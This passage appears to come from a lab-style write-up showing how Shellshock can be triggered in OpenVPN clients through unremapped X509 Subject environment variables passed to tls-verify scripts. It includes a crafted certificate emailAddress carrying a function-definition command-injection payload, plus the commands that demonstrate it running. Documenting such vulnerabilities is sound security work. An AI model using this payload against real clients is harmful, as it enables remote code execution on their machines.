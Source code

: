 
### X509 param

This one is tricky.

All the scripts that OpenVPN can execute receive a *remapped* version of the
environment variables.

Depending of the variable the remap allows more or less character but
in any case the remap process destroys the magic runes.

But the are exceptions: ``password`` as it was mentioned before
and ``X509_{n}_{m}``.

When a endpoint uses an external script to validate the TLS identity
through ``--tls-verify``, it receives an environment variable for each
part of the ``Subject`` of the both certificates: the client's and
the server's.

Here the server sets up an evil certificate:

```shell
$ openvpn --config vpn-srv.conf --cert evil.crt --key evil.key  >/dev/null &
<...>
```

The malicious certificate has a crafted ``emailAddress`` inside
of the ``Subject`` that has the incantation.

```shell
$ openssl x509 -in evil.crt -text
Certificate:
    Data:
        Version: 3 (0x2)
        Serial Number: 2 (0x2)
    Signature Algorithm: sha256WithRSAEncryption
        <...>
        Subject: C=KG, ST=NA, <...>emailAddress=() { :;}; /bin/cp /bin/cp /
<...>
```

On the client side, we just have to verify TLS with a script and allow it
to run with ``--script-security 2``:

```shell
$ openvpn --config vpn-cli.conf --tls-verify env.sh --script-security 2   # byexample: +stop-on-silence +timeout=5
<...>

$ [ -e /cp ] && echo "you've been pwned"
you've been pwned
```

The variables ``X509_{n}_{m}`` will contain the *raw* pieces of ``Subject``
of the client's certificate (``{n} = 1``) and the server's certificate
(``{n} = 0``) where ``{m}`` will have the ``Subject``'s field name, like
``emailAddress``.
